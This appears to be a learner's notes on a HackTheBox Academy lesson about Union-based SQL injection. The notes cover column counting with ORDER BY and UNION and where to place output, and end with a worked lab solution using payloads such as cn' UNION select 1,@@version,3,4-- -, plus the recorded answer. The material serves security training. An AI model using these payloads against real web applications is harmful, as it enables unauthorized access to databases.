 ﻿---
sticker: lucide//database
---
Now that we know how the Union clause works and how to use it let us learn how to utilize it in our SQL injections. Let us take the following example:

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/33/ports_cn.png)

We see a potential SQL injection in the search parameters. We apply the SQLi Discovery steps by injecting a single quote (`'`), and we do get an error:

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/33/ports_quote.png)

Since we caused an error, this may mean that the page is vulnerable to SQL injection. This scenario is ideal for exploitation through Union-based injection, as we can see our queries' results.

---

## Detect number of columns

Before going ahead and exploiting Union-based queries, we need to find the number of columns selected by the server. There are two methods of detecting the number of columns:

- UsingÂ `ORDER BY`
- UsingÂ `UNION`

#### Using ORDER BY

The first way of detecting the number of columns is through theÂ `ORDER BY`Â function, which we discussed earlier. We have to inject a query that sorts the results by a column we specified, 'i.e., column 1, column 2, and so on', until we get an error saying the column specified does not exist.

For example, we can start withÂ `order by 1`, sort by the first column, and succeed, as the table must have at least one column. Then we will doÂ `order by 2`Â and thenÂ `order by 3`Â until we reach a number that returns an error, or the page does not show any output, which means that this column number does not exist. The final successful column we successfully sorted by gives us the total number of columns.

If we failed atÂ `order by 4`, this means the table has three columns, which is the number of columns we were able to sort by successfully. Let us go back to our previous example and attempt the same, with the following payload:


```sql
' order by 1-- -
```

Reminder: We are adding an extra dash (-) at the end, to show you that there is a space after (--).

As we see, we get a normal result:

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/33/ports_cn.png)

Next, let us try to sort by the second column, with the following payload:


```sql
' order by 2-- -
```

We still get the results. We notice that they are sorted differently, as expected:

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/33/order_by_2.jpg)

We do the same for columnÂ `3`Â andÂ `4`Â and get the results back. However, when we try toÂ `ORDER BY`Â column 5, we get the following error:

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/33/order_by_5.jpg)

This means that this table has exactly 4 columns .

#### Using UNION

The other method is to attempt a Union injection with a different number of columns until we successfully get the results back. The first method always returns the results until we hit an error, while this method always gives an error until we get a success. We can start by injecting a 3 columnÂ `UNION`Â query:

```sql
cn' UNION select 1,2,3-- -
```

We get an error saying that the number of columns donâ€™t match:

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/33/ports_columns_diff.png)

So, letâ€™s try four columns and see the response:


```sql
cn' UNION select 1,2,3,4-- -
```

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/33/ports_columns_correct.png)

This time we successfully get the results, meaning once again that the table has 4 columns. We can use either method to determine the number of columns. Once we know the number of columns, we know how to form our payload, and we can proceed to the next step.

---

## Location of Injection

While a query may return multiple columns, the web application may only display some of them. So, if we inject our query in a column that is not printed on the page, we will not get its output. This is why we need to determine which columns are printed to the page, to determine where to place our injection. In the previous example, while the injected query returned 1, 2, 3, and 4, we saw only 2, 3, and 4 displayed back to us on the page as the output data:

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/33/ports_columns_correct.png)

It is very common that not every column will be displayed back to the user. For example, the ID field is often used to link different tables together, but the user doesn't need to see it. This tells us that columns 2 and 3, and 4 are printed to place our injection in any of them.Â `We cannot place our injection at the beginning, or its output will not be printed.`

This is the benefit of using numbers as our junk data, as it makes it easy to track which columns are printed, so we know at which column to place our query. To test that we can get actual data from the database 'rather than just numbers,' we can use theÂ `@@version`Â SQL query as a test and place it in the second column instead of the number 2:


```sql
cn' UNION select 1,@@version,3,4-- -
```

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/33/db_version_1.jpg)

As we can see, we can get the database version displayed. Now we know how to form our Union SQL injection payloads to successfully get the output of our query printed on the page. In the next section, we will discuss how to enumerate the database and get data from other tables and databases.

# Question
---
![Pasted image 20250131172016.png](../../../../IMAGES/Pasted%20image%2020250131172016.png)


Let's begin by testing with the following query:

`xx' union select 1-- -`

This outputs the following:

![Pasted image 20250131172255.png](../../../../IMAGES/Pasted%20image%2020250131172255.png)

So, we need to keep adding more:

`xx' union select 1,2-- -`

![Pasted image 20250131172334.png](../../../../IMAGES/Pasted%20image%2020250131172334.png)

We need more:

`xx' union select 1,2,3-- -`

![Pasted image 20250131172400.png](../../../../IMAGES/Pasted%20image%2020250131172400.png)

More:

`xx' union select 1,2,3,4-- -`

![Pasted image 20250131172430.png](../../../../IMAGES/Pasted%20image%2020250131172430.png)

Found it!

We can submit the following in order to get the contents of `user()`:

`xx' union select 1,user(),3,4-- -`

![Pasted image 20250131172528.png](../../../../IMAGES/Pasted%20image%2020250131172528.png)

Got it: `root@localhost`


